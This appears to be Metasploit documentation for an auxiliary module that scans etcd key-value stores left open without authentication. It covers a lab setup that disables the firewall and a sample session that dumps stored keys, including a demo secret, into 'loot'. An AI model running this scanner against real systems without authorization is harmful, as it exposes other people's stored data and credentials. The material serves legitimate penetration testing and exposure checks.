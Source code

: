 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner 
msf5 auxiliary(scanner/etcd/open_key_scanner) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 2.2.2.2:2379   
Version: {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
2.2.2.2                 etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_2.2.2.2_etcd.data_425280.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
2.2.2.2        2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```
